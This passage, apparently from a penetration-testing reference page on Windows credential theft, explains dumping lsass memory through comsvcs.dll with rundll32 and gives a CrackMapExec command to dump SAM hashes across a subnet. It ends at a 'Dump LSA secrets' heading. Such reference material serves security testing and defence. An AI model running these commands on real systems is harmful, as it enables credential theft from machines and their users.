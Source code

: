There’s a DLL called **comsvcs.dll**, located in `C:\Windows\System32 ` that **dumps process memory** whenever they **crash**. This DLL contains a **function **called **`MiniDumpW `** that is written so it can be called with `rundll32.exe `. The first two arguments are not used, but the third one is split into 3 parts. First part is the process ID that will be dumped, second part is the dump file location, and third part is the word **full**. There is no other choice. Once these 3 arguments has been parsed, basically this DLL creates the dump file, and dumps the specified process into that dump file. Thanks to this function, we can use **comsvcs.dll** to dump lsass process instead of uploading procdump and executing it. (This information was extracted from https://en.hackndo.com/remote-lsass-dump-passwords/)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2008'%3e%3cg data-evernote-id='2009' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2010' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2011' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full

We just have to keep in mind that this technique can only be executed as **SYSTEM**.

**You can automate this process with **[**lssasy**](https://github.com/Hackndo/lsassy)**.**

#

CrackMapExec[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2042'%3e%3cg data-evernote-id='2043' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2044' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2045' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#crackmapexec)

##

Dump SAM hashes[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2058'%3e%3cg data-evernote-id='2059' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2060' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2061' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#dump-sam-hashes)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2065'%3e%3cg data-evernote-id='2066' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2067' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2068' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

##

Dump LSA secrets[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2080'%3e%3cg data-evernote-id='2081' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2082' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2083' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#dump-lsa-secrets)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2087'%3e%3cg data-evernote-id='2088' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2089' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2090' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy
